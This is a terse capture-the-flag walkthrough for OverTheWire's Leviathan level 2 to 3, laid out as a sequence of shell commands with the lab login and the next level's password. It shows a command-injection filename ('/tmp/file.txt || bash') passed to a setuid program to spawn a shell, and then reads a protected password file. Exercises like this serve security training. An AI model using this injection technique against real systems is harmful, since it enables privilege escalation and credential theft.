

# Level 2 → Level 3

## Solution
```
ssh leviathan2@leviathan.labs.overthewire.org -p 2223
```
```
mEh5PNl10e
```
```
ls -al
```


```
ltrace ./printfile /etc/passwd
```


```
touch '/tmp/file.txt || bash'
```
```
./printfile '/tmp/file.txt || bash'
```



```
cat /etc/leviathan_pass/leviathan3
```
```
exit
```
```
rm '/tmp/file.txt || bash'
```

## Password for the next level:
```
Q0G8j4sakn
```
